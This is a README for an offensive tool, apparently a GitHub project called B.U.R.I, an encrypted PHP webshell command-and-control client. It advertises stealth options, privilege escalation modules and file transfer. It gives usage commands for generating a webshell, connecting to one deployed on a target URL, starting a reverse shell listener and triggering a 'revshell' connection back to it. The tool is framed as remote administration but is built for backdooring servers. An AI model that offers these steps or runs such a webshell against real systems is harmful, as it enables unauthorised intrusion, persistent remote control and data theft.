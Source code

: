 # B.U.R.I v2.0 - Encrypted C2 Webshell Client

<img width="563" height="729" alt="image" src="https://github.com/user-attachments/assets/fd44ac00-cf3f-46b1-be0e-a74669280599" />


B.U.R.I (Backdoor Utility for Remote Interaction) is a modular, encrypted command-and-control (C2) webshell client designed for secure and interactive remote administration. It provides a feature-rich interface for managing remote systems via an encrypted PHP webshell, supporting AES-GCM encryption, reverse shell capabilities, and extensible command modules.

## Features

- **Encrypted Communication**: Uses AES-GCM for secure client-server communication.
- **Interactive Shell**: Rich terminal UI with auto-completion, history, and syntax highlighting powered by `rich` and `prompt_toolkit`.
- **Modular Design**: Extensible command modules for custom functionality (e.g., file upload/download, privilege escalation).
- **Reverse Shell Support**: Built-in listener for reverse shell connections.
- **Cross-Platform**: Supports both Linux and Windows targets with dynamic environment detection.
- **Stealth Options**: Customizable POST parameters and proxy support for enhanced discretion.
- **Path Autocompletion**: Remote path completion using `ls` for efficient navigation.

## Installation

### Prerequisites
- Python 3.8+
- Required Python packages:
  ```bash
  pip install requests rich prompt_toolkit pycryptodome
  ```

### Setup
1. Clone the repository:
   ```bash
   git clone https://github.com/Anonre/Buri.git
   cd Buri
   ```
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```
3. (Optional) Create a `modules` directory for custom command modules:
   ```bash
   mkdir modules
   ```

## Usage

B.U.R.I supports three main modes: creating a webshell, running an interactive session, and listening for reverse shells.

### 1. Create a Webshell
Generate an encrypted PHP webshell:
```bash
python buri.py create --path shell.php --password 'SuperSecretPass123'
```
This creates a PHP webshell at `shell.php` with the specified password for encryption.

### 2. Run an Interactive Session
Connect to a deployed webshell:
```bash
python buri.py run https://example.com/shell.php -p 'SuperSecretPass123' --param 'data'
```
- `--param`: Specify the POST parameter name (default: `data`).
- `--proxy`: Optional proxy (e.g., `http://127.0.0.1:8080`).

### 3. Start a Reverse Shell Listener
Listen for incoming reverse shell connections:
```bash
python buri.py listen --lhost 0.0.0.0 --lport 4444
```
Then, from the interactive shell, initiate a reverse shell:
```
revshell <listener_ip> 4444
```

### Example Commands
Once in the interactive shell:
- `whoami`: Display the current user.
- `cd /path/to/dir`: Change the remote working directory.
- `ls`: List files in the current directory (supports autocompletion).
- `upload /local/path /remote/path`: Upload a file to the remote system.
- `download /remote/path /local/path`: Download a file from the remote system.
- `revshell <ip> <port>`: Initiate a reverse shell to the specified listener.

### Screenshoot

<img width="1007" height="539" alt="image" src="https://github.com/user-attachments/assets/91932592-65bb-464a-b2d1-d36b2457cbda" />
